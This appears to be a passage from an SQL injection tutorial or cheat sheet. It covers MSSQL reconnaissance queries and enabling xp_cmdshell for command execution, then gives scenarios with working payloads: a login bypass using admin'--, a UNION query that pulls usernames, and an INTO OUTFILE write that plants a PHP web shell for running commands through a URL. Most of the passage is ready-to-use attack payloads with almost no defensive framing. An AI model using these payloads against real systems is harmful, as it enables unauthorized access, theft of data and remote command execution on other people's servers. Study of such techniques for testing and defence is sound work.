 
### 3. MSSQL Specific
```sql
# Version detection
SELECT @@version

# Current user
SELECT user_name()
SELECT suser_sname()

# Database name
SELECT db_name()

# Command execution
EXEC xp_cmdshell 'whoami'

# Enable command execution
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

## Practical SQL Injection Scenarios

### Scenario 1: Login Bypass
```sql
# Original query
SELECT * FROM users WHERE username='$user' AND password='$pass'

# Injection payload
Username: admin'--
Password: anything

# Resulting query
SELECT * FROM users WHERE username='admin'--' AND password='anything'
```

### Scenario 2: Data Extraction
```sql
# Original query
SELECT name FROM products WHERE id='$id'

# Union injection
?id=1' UNION SELECT username FROM users--

# Resulting query
SELECT name FROM products WHERE id='1' UNION SELECT username FROM users--'
```

### Scenario 3: File Upload via SQL
```sql
# MySQL file write
?id=1' UNION SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/cmd.php'--

# Accessing shell
http://target.com/cmd.php?cmd=whoami
```
